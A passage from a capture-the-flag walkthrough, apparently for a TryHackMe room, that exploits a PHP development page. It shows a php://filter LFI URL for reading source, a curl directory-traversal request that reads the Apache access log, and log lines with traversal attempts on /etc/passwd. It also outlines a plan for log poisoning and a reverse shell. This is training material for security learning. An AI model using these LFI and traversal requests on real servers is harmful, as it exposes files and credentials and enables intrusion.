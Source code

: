 	- Put the _different_ domain into `hosts` file and enumerate the root again but with a vHost now
	- WhooHoo! found  `robots.txt           (Status: 200) [Size: 34]`
	- Grab `robots.txt` and we finally find the dev page  
		
		```
		User-agent: *
		Disallow: /xxxx.php  
		```
4. Find flag 2
	- This is a php site _under development_, turns out assuming typical defenses have not been put into play yet 
is correct. We will now use the `php` file we found to do a classic PHP style LFI using `php://filter` utility common 
in PHP deployments.
	- Using this url `http://sitename.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/html/development_testing/xxxx.php` to read the source 
of the `xxxx.php` file. The flag 2 is found in a comment.
5. Now we need to get a shell and find the user flag
	- This will involve "_Poison_" according to the hint.
	- Seems to me I remember finding the web server logs accessible in another room, and then poisoning them with something that 
gets logged...   Reloading that log would then enable a *_CMD Shell_*, not to be confused with a _web shell_ but very much like it. From 
there it is a matter of launching a native shell gets piped thru a network connection back to our attacking machine.
	- The irony here is that I never bothered to learn PHP when early on I learned that the language had so many flaws like the one 
I'm about to exploit. Now I'm no webdev but it seems to me that battening down the hatches takes more effort than site design. For 
that reason alone I would choose **any** other scripting language to provide services that are transported across public networks.
	- Alright, time to simmer down on the rants.
	- Let's see if we can reach the _Apache 2_&copy; logs
	- Of course we can!

```sh
curl -is http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log
HTTP/1.1 200 OK
Date: Fri, 30 Sep 2022 01:01:13 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 985
Content-Type: text/html; charset=UTF-8
[...]
10.13.21.92 - - [30/Sep/2022:06:24:36 +0530] "GET /test.php?view=/var/www/html/development_testing//..//..//..//..//var/log/apache2/access.log HTTP/1.1" 200 459 "-" "curl/7.85.0"
10.13.21.92 - - [30/Sep/2022:06:25:51 +0530] "GET /test.php?view=/var/www/html/development_testing//..//..//..//..//etc/passwd HTTP/1.1" 200 1818 "-" "curl/7.85.0"
10.13.21.92 - - [30/Sep/2022:06:26:14 +0530] "GET /test.php?view=/var/www/html/development_testing//..//..//..//..//var/log/apache/access.log HTTP/1.1" 200 458 "-" "curl/7.85.0"
10.13.21.92 - - [30/Sep/2022:06:27:38 +0530] "GET /test.php?view=/var/www/html/development_testing//..//..//..//..//var/log/httpd/access.log HTTP/1.1" 200 458 "-" "curl/7.85.0"
```

